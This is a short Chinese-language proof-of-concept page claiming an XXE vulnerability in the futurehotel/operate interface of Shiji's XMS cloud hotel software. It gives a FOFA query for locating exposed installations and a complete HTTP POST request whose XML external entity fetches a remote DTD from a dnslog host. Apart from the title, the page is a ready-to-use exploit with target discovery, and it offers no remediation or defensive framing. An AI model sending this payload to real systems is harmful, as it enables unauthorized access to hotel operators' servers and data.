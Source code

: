 ## 西软云XMS-futurehotel-operate接口存在XXE漏洞

## fofa
```
app="shiji-西软云XMS"
```

## poc
```
POST /XopServerRS/rest/futurehotel/operate HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.3157.54 Safari/537.36
Connection: close
Content-Type: text/xml
Accept-Encoding: gzip

<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xxx.dnslog.cn"> %remote;]>
```
